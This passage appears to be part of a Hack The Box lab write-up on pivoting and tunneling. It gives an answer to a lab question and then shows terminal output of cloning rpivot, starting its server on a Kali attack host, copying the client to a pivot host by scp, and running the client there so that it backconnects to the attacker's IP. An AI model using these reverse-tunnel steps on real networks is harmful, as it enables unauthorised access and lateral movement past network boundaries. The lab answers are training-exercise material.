 **Answer:** `Pivot Host`

### Question 3:
![](./attachments/Pasted%20image%2020230221123210.png)

Download `rpivot` and launch the server version on the attack host.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ sudo git clone https://github.com/klsecservices/rpivot.git
[sudo] password for kali: 
Cloning into 'rpivot'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37
Receiving objects: 100% (37/37), 51.20 KiB | 371.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ cd rpivot                                

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding/rpivot]
└─$ ls
client.py  __main__.py  ntlm_auth  ordereddict.py  README.md  relay.py  server.py  six.py

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding/rpivot]
└─$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 10.10.15.53
New connection from host 10.129.19.46, source port 60400
```

Copy `rpivot` to the pivot host, login with `ssh` and run the client version.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ scp -r rpivot ubuntu@10.129.19.46:~/     
ubuntu@10.129.19.46's password: 
(...)  
client.py                                                                                                 100%   21KB  49.3KB/s   00:00    
__main__.py                                                                                               100%  396    10.4KB/s   00:00    
server.py                                                                                                 100%   18KB 101.0KB/s   00:00      

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ ssh ubuntu@10.129.19.46  
ubuntu@10.129.19.46's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
(...)
Last login: Thu May 12 17:27:41 2022
ubuntu@WEB01:~$ cd rpivot/
ubuntu@WEB01:~/rpivot$ ls
client.py  __main__.py  ntlm_auth  ordereddict.py  README.md  relay.py  server.py  six.py
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.15.53 --server-port 9999
Backconnecting to server 10.10.15.53 port 9999
```

